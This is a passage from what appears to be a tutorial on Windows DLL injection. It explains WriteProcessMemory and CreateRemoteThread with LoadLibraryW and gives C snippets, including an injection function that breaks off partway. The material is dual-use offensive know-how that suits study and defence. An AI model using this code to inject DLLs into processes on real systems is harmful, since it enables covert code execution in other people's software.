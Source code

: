 #### Writing To Allocated Memory

After the memory is successfully allocated in the remote process, it's possible to use `WriteProcessMemory` to write to the allocated buffer. The DLL's name is written to the previously allocated memory buffer.

The `WriteProcessMemory` WinAPI function looks like the following based on its documentation

```c
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,               // A handle to the process whose memory to be written to
  [in]  LPVOID  lpBaseAddress,          // Base address in the specified process to which data is written
  [in]  LPCVOID lpBuffer,               // A pointer to the buffer that contains data to be written to 'lpBaseAddress'
  [in]  SIZE_T  nSize,                  // The number of bytes to be written to the specified process.	
  [out] SIZE_T  *lpNumberOfBytesWritten // A pointer to a 'SIZE_T' variable that receives the number of bytes actually written
);
```

Based on `WriteProcessMemory`'s parameters shown above, it will be called as the following, writing the buffer (`DllName`) to the allocated address (`pAddress`), returned by the previously called `VirtualAllocEx` function.

```c
// The data being written is the DLL name, 'DllName', which is of size 'dwSizeToWrite'
SIZE_T lpNumberOfBytesWritten = NULL;
WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten)
```

#### Execution Via New Thread

After successfully writing the DLL's path to the allocated buffer, [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) will be used to create a new thread in the remote process. This is where the address of `LoadLibraryW` becomes necessary. `pLoadLibraryW` is passed as the starting address of the thread and then `pAddress`, which contains the DLL's name, is passed as an argument to the `LoadLibraryW` call. This is done by passing `pAddress` as the `lpParameter` parameter of `CreateRemoteThread`.

`CreateRemoteThread`'s parameters are the same as that of the `CreateThread` WinAPI function explained earlier, except for the additional `HANDLE hProcess` parameter, which represents a handle to the process in which the thread is to be created.

```c
// The thread entry will be 'pLoadLibraryW' which is the address of LoadLibraryW
// The DLL's name, pAddress, is passed as an argument to LoadLibrary
HANDLE hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
```

#### DLL Injection - Code Snippet

```c
BOOL InjectDllToRemoteProcess(IN HANDLE hProcess, IN LPWSTR DllName) {

	BOOL		bSTATE                    = TRUE;
	
	LPVOID		pLoadLibraryW             = NULL;
	LPVOID		pAddress                  = NULL;
	
	// fetching the size of DllName *in bytes* 
	DWORD		dwSizeToWrite             = lstrlenW(DllName) * sizeof(WCHAR);

	SIZE_T		lpNumberOfBytesWritten    = NULL;

	HANDLE		hThread                   = NULL;

	pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
```